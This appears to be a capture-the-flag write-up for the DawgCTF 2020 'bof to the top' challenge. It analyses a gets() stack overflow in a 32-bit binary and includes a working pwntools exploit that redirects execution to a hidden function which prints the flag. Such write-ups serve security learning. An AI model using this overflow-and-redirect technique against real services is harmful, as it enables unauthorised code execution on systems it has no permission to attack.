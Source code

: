 # DawgCTF 2020

## bof to the top

> 100
>
> Anything it takes to climb the ladder of success
>
> `nc ctf.umbccd.io 4000`
>
> Author: trashcanna>
> 
> [bof](bof)

Tags: _pwn_ _bof_ _gets_


### Analysis

#### Checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Can exploit GOT, overflow the stack, easy ROP as a start.


#### Decompile with Ghidra

There are two functions of interest: `get_audition_info` and `audition`.

Main just calls:

![](get_audition_info.png)

`get_audition_info` has a `gets` vulnerability.

There is no call to:

![](audition.png)

`iVar1` is set to the address following the call to `__x86.get_pc_thunk.ax` (`0x0804918e`):

```
08049189 e8 ff 00 00 00          CALL       __x86.get_pc_thunk.ax
0804918e 05 72 2e 00 00          ADD        EAX,0x2e72
```

The argument to `system`: `iVar1 + 0xe7a` (`0x804918e + 0xe7a = 0x804a008`) points to the string `/bin/cat flag.txt`:

```
0804a008 2f 62 69        ds         "/bin/cat flag.txt"
         6e 2f 63 
         61 74 20 
```

Clearly this is the function we want to call, however, two parameters are required, and only the correct values will call `system`.


### Exploit

#### Attack Plan

1. Overflow buffer, smash stack, and call `audition` with parameters `0x4b0` and `0x16e`
2. Get the flag.


#### Overflow buffer, smash stack, and call `audition` with parameters `0x4b0` and `0x16e`

From the disassembly, `local_70` is `0x6c` bytes above the saved base pointer and the return address:

```
0804920c 8d 45 94        LEA        EAX=>local_70,[EBP + -0x6c]
```

Code:

```
from pwn import *

#p = process('./bof')
p = remote('ctf.umbccd.io', 4000)

binary = ELF('bof')

p.recvuntil('name?\n')
p.sendline("foo")
p.recvuntil('singing?\n')

payload  = 0x6c * b'A'
payload += 4 * b'B'
payload += p32(binary.symbols['audition'])
payload += p32(0x0)
payload += p32(0x4b0)
payload += p32(0x16e)

p.sendline(payload)
p.stream()
```

The payload sends `0x6c` `A`s to get to the saved base pointer, then 4 `B`s to overwrite that, then the address to `audition`, with where we'd like to return to after `audition`, but we do not care, lastly the two arguments to `audition`.

Output:

```
[+] Opening connection to ctf.umbccd.io on port 4000: Done
[*] '/pwd/datajerk/dawgctf2020/bof-to-the-top/bof'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
DawgCTF{wh@t_teAm?}
```

#### Flag

```
DawgCTF{wh@t_teAm?}
```
